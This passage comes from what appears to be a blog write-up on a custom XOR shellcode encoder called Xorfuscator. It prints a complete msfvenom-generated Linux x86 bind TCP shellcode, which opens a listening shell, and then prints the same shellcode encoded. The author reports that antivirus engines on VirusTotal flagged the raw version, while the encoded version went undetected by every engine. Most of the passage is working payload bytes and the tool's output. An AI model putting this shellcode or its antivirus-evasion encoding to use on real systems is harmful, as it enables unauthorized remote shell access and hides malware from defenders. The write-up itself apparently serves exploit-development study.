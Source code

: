 To test, I used `msfvenom` to create a bind TCP shellcode by running `msfvenom -p linux/x86/shell_bind_tcp`, which created the following 78 bytes:

```
\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x5b\x5e\x52\x68\x02\x00\x11\x5c\x6a\x10\x51\x50\x89\xe1\x6a\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```

I then placed this shellcode into the C file used to test the encoder initially, compiled it and uploaded it to VirusTotal. The executable was successfully identified by Avast, ClamAV and AVG as being dangerous:

![](/assets/images/creating-a-shellcode-encoder/unencoded_virustotal.png)

I then encoded the msfvenom generated shellcode with Xorfuscator:

```shell_session
$ python xorfuscator.py '\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x5b\x5e\x52\x68\x02\x00\x11\x5c\x6a\x10\x51\x50\x89\xe1\x6a\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'

\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb2\xa4\xeb\x1f\x5e\x8d\x3e\x8a\x1c\x0f\x88\xdf\x88\xd0\x30\xd8\x74\x16\x66\x8b\x44\x0f\x01\x66\x31\xd8\x66\x89\x07\x41\x8d\x7f\x02\xeb\xe4\xe8\xdc\xff\xff\xff\x7d\x4c\xa6\x09\xfe\xea\xd8\x8b\x9b\x0c\x5f\x66\x30\x32\xb9\x07\xe6\xb7\x0f\x69\xc2\xab\x2b\xf0\x3e\x60\x6c\xea\x82\xe8\x63\x63\x72\x68\x34\x02\xeb\xfb\xba\xef\xbf\x66\xf4\x15\x9e\xbb\xdd\xe3\x73\xbe\xf3\xbb\x32\xfa\xeb\xef\x58\x20\x24\x90\xe3\x85\x2e\x64\xe4\x27\x59\xe9\x3f\xee\x23\x6e\x63\xf0\x3a\x47\x2d\x78\x68\x30\xa5\x66\xe6\x2f\x69\x10\x91\xfa\x92\xd5\x3e\x11\x4d\xf4\x9c\x9c\x16\x39\x74\xa0\xc9\xce\xd2\x5b\x31\x5c\x0c\x0f\xfb\x72\x1a\xb6\x06\xbd\xd1\x1c\x51\xa4
```

After encoding it, I placed the encoded shellcode into the same C file again, compiled, and uploaded to VirusTotal once more. As expected, no anti-virus applications were able to successfully detect the file as being dangerous:

![](/assets/images/creating-a-shellcode-encoder/encoded_virustotal.png)
